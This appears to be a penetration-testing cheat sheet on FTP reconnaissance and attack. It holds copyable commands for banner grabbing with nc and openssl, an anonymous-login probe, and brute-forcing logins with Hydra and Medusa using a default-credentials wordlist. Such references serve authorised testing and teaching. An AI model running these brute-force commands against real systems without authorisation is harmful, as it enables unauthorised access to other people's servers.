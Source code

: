 # File Transfer Protocol

Graphical User Interface Client

```{.shell .copy}
apt-get install -y filezilla
```

## Banner Grabbing

Useful to determine FTP version and capabilities

```shell
nc -vn  $rhost ${port:-21}  # without ssl
openssl s_client -connect $rhost:${port:-21} -starttls ftp  # with ssl
```

## Anonymous Login

Useful to determine FTP version and capabilities

```{.shell .copy}
nc -C $rhost ${port:-21} -w ${timeout:-1} << EOF
USER anonymous
PASS anonymous
HELP
FEAT
EOF
```

## Brute force

```{.shell .copy title="Default credentials"}
user_pass=/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
awk -F ':' '{print $1}' $user_pass > users.txt
awk -F ':' '{print $2}' $user_pass > passwords.txt
users=users.txt
passwords=passwords.txt
```

```{.shell .copy title="Hydra"}
hydra \
 -e nsr \
 -s ${port:-21} \
 -L $users \
 -P $passwords \
 -o "$rhost-hydra-ftp" \
 ftp://$rhost
```

```{.shell .copy title="Medusa"}
medusa \
 -e ns \
 -n ${port:-21} \
 -U $users \
 -p $passwords \
 -O "$rhost-medusa-ftp" \
 -M ftp \
 -h $rhost
```
